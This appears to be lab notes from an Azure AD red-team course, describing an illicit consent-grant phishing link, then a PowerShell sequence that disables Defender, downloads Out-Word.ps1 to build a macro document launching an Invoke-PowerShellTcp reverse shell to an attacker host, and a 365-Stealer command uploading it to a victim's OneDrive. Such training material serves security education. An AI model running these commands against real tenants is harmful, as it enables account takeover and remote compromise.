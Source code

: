 -   We need to target an Application Administrator to grant consent for better permissions.
-   Ideally, we have to target all the users. For the lab, we can use our earlier enumeration that Application Administrator role is assigned to markdwalden@defcorphq.onmicrosoft.com
-   We need to register a new app (or modify existing one) and now request permissions that need admin consent - mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send
-   Generate a new link using 'Read More' on https://localhost and send an email to the user containing that link (Remember to change the client ID if you register a new application): https://login.microsoftonline.com/common/oauth2/authorizeresponse_type=code&client_id=dd84e18a-4b33-45c8-b36c-41ccb4624802&scope=https://graph.microsoft.com/.default+openid+offline_access+&redirect_uri=https://172.16.151.X/login/authorized&response_mode=query&sso_reload=true

-   Once the user simulation grants consent, we will get the access token of the application administrator.
-   Using the access token of application administrator, we can use 365-stealer to upload macro infected doc files to the user's OneDrive.
-   The user simulation will open these macro infested word files and execute the macro.
-   A licensed version of Office 365 is available on 172.16.1.250 to create doc files
```
$passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("office- vm\administrator", $passwd)
$officeVM = New-PSSession -ComputerName 172.16.1.250 -Credential $creds
Enter-PSSession -Session $officeVM
Set-MpPreference -DisableRealtimeMonitoring $true
IEX (New-Object Net.Webclient).downloadstring("http://172.16.150.x:82/Out-Word.ps1") Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.x:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.x -Port 4444" -OutputFile studentx.doc
Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\studentx.doc
-Destination C:\AzAD\Tools\studentx.doc
```


-  Start a listener on the student VM

-  On the student VM, use 365-stealer webconsole or CLI to upload the doc to OneDrive of MarkDWalden@defcorphq.onmicrosoft.com
```
python C:\xampp\htdocs\365-Stealer\365-Stealer.py -- refresh-user MarkDWalden@defcorphq.onmicrosoft.com --upload C:\AzAD\Tools\studentx.doc
```
# App Services

-  "Azure App Service is an HTTP-based service for hosting web applications, REST APIs, and mobile back ends."

-  Supports both Windows and Linux environments.

-  .NET, .NET Core, Java, Ruby, Node.js, PHP, or Python are supported.

-  Each app runs inside a sandbox but isolation depends upon App Service plans

- Apps in Free and Shared tiers run on shared VMs

- Apps in Standard and Premium tiers run on dedicated VMs

-  Windows apps (not running in Windows containers) have local drives, UNC shares, outbound network connectivity (unless restricted), read access to Registry and event logs.
